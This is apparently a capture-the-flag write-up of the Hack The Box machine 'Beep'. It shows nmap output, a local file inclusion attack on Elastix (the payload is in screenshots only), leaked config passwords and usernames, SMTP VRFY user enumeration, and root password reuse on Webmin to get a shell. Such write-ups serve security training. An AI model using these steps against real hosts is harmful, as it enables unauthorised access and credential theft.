 ## --------------->> Beep <<-----------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.7 -p-
------

    Nmap scan report for 10.10.10.7
    Host is up (0.38s latency).
    Not shown: 65519 closed ports
    PORT      STATE SERVICE    VERSION
    22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
    |_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
    25/tcp    open  smtp       Postfix smtpd
    |_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
    80/tcp    open  http       Apache httpd 2.2.3
    |_http-server-header: Apache/2.2.3 (CentOS)
    |_http-title: Did not follow redirect to https://10.10.10.7/
    110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
    |_pop3-capabilities: EXPIRE(NEVER) TOP APOP AUTH-RESP-CODE UIDL IMPLEMENTATION(Cyrus POP3 server v2) USER RESP-CODES LOGIN-DELAY(0) PIPELINING STLS
    111/tcp   open  rpcbind    2 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2            111/tcp   rpcbind
    |   100000  2            111/udp   rpcbind
    |   100024  1            875/udp   status
    |_  100024  1            878/tcp   status
    143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
    |_imap-capabilities: Completed LISTEXT OK SORT CHILDREN MAILBOX-REFERRALS ACL ID NO URLAUTHA0001 X-NETSCAPE IDLE ATOMIC LIST-SUBSCRIBED RIGHTS=kxte IMAP4rev1 CATENATE QUOTA CONDSTORE UIDPLUS ANNOTATEMORE MULTIAPPEND THREAD=ORDEREDSUBJECT LITERAL+ NAMESPACE SORT=MODSEQ THREAD=REFERENCES BINARY STARTTLS UNSELECT IMAP4 RENAME
    443/tcp   open  ssl/https?
    | ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
    | Not valid before: 2017-04-07T08:22:08
    |_Not valid after:  2018-04-07T08:22:08
    |_ssl-date: 2021-08-14T15:03:44+00:00; -1s from scanner time.
    878/tcp   open  status     1 (RPC #100024)
    993/tcp   open  ssl/imap   Cyrus imapd
    |_imap-capabilities: CAPABILITY
    995/tcp   open  pop3       Cyrus pop3d
    3306/tcp  open  mysql      MySQL (unauthorized)
    |_ssl-cert: ERROR: Script execution failed (use -d to debug)
    |_ssl-date: ERROR: Script execution failed (use -d to debug)
    |_sslv2: ERROR: Script execution failed (use -d to debug)
    |_tls-alpn: ERROR: Script execution failed (use -d to debug)
    |_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
    4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
    4445/tcp  open  upnotifyp?
    4559/tcp  open  hylafax    HylaFAX 4.3.10
    5038/tcp  open  asterisk   Asterisk Call Manager 1.1
    10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
    |_http-server-header: MiniServ/1.570
    |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
    Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

    Host script results:
    |_clock-skew: -1s

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 1631.55 seconds

// Navigating to http://10.10.10.7/ redirect us to HTTPS(port 443) https://10.10.10.7/ , its a login page of elastix(private branch exchange software)

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/1.png)

// Also we got another login page on port 10000 for webmin service (we will save that for later)

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/2.png)

// Searching for exploit to elastix service in [ExploitDB](https://www.exploit-db.com/) found me a 'Local file inclusion vulnerability'

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/5.png)

// Looking at the vulnerabillity help to understand the picture

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/6.png)

// Lets try that !

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/3.png)

// It worked !, since the exploit suggested a config file for the PBX, we have got some potential passwords

    # AMPDBPASS=amp109
    AMPDBPASS=jEhdIekWmdjE
    AMPENGINE=asterisk
    #AMPMGRPASS=amp111

// Lets try to get passwd file

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/4.png)

// Also worked !, So we got users 

    sync
    shutdown
    halt
    news
    mysql
    cyrus
    asterisk
    spamfilter
    fanis

// Lets save them to a file and since we got SMTP service running

// we can try to connect this service with telnet and verify the user we got

    $ telnet 10.10.10.7 25
------

    Trying 10.10.10.7...
    Connected to 10.10.10.7.
    Escape character is '^]'.

// command 'EHLO' with anything just shows options

    EHLO W0lfysec
    250-beep.localdomain
    250-PIPELINING
    250-SIZE 10240000
    250-VRFY
    250-ETRN
    250-ENHANCEDSTATUSCODES
    250-8BITMIME
    250 DSN

// command 'VRFY' will verify if user mail exist (status: 550-NOT exist, 252-Exist)

    VRFY W0lfysec@localhost
    550 5.1.1 <r4r3@localhost>: Recipient address rejected: User unknown in local recipient table
    VRFY halt@localhost
    252 2.0.0 halt@localhost
    VRFY fanis
    252 2.0.0 fanis

// Since we got verify users and we got some passes and SSH service open

// we could try to connect to machine(credential root:jEhdIekWmdjE worked!) but it seems to easy

// Let go back to the webmin login page at https://10.10.10.7:10000/ and try to login as root : jEhdIekWmdjE

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/7.png)

// Searching the app a little bit i foud a command shell option at others option

// since we loged in as root we can get the flags !

![Image 8](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/8.png)

